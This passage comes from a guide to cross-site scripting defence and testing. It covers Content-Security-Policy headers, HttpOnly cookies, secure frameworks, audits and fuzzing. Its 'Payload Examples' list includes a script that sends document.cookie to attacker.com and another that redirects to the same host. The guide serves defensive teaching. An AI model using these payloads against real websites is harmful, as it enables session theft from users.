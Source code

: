 ### Example CSP Header

```
Content-Security-Policy: default-src 'self'; script-src 'self' https://example.com; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self'; connect-src 'self'; media-src 'self'; object-src 'none'; base-uri 'self'; form-action 'self';
```

## Other Mitigation Strategies

### HTTPOnly Cookies

*   Setting the `HttpOnly` flag on cookies: Prevents client-side scripts from accessing cookies. This helps protect sensitive session cookies from being stolen via XSS.

### Secure Frameworks and Libraries

*   Using frameworks and libraries with built-in XSS protection:  Examples include React, Angular, and Vue.js.  These frameworks often provide automatic escaping and sanitization.

### Regular Security Audits and Penetration Testing

*   Conducting regular security audits and penetration testing:  Identifying and fixing XSS vulnerabilities before they can be exploited.

# III. XSS Testing and Detection

## Manual Testing Techniques

### Using browser developer tools

*   Inspecting the DOM for injected scripts.
*   Monitoring network requests for unauthorized data exfiltration.

### Fuzzing

*   Injecting various payloads to test for XSS vulnerabilities.
*   Using automated fuzzing tools.

### Payload Examples

*   Basic alert: `<script>alert('XSS')</script>`
*   Cookie stealing: `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>`
*   Redirection: `<script>window.location='http://attacker.com'</script>`

## Automated XSS Scanners

### Overview of automated scanners

